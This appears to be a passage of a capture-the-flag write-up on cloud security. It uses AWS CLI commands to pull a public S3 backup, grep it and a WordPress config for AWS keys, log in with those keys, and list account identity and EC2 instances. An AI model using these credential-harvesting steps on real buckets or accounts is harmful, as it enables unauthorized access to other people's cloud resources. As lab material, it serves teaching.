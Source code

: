 Run the following command to download the zip file, unzip and read the content:  
`aws s3 cp s3://images.bestfestivalcompany.com/wp-backup.zip . --no-sign-request`  
`unzip wp-backup.zip`  
`cat wp_backup/* | grep AKIA`

![](./res/answer4.png)

Rune the following command to find the Account ID:  
`aws sts get-access-key-info --access-key-id AKIAQI52OJVCPZXFYAOI`

![](./res/answer5.png)

Run the following command to find the AWS Access Key ID and Secret Access Key:  
`cat wp_backup/wp-config.php`

![](./res/answer6.png)

Run the following command to store the AWS credential:  
`aws configure`  

![](./res/answer7.png)

Run the following command to find the username for the access key:  
`aws sts get-caller-identity`

![](./res/answer8.png)

Run the following command to find the EC2 instance information and scroll down to find the Tags section:  
`aws ec2 describe-instances`
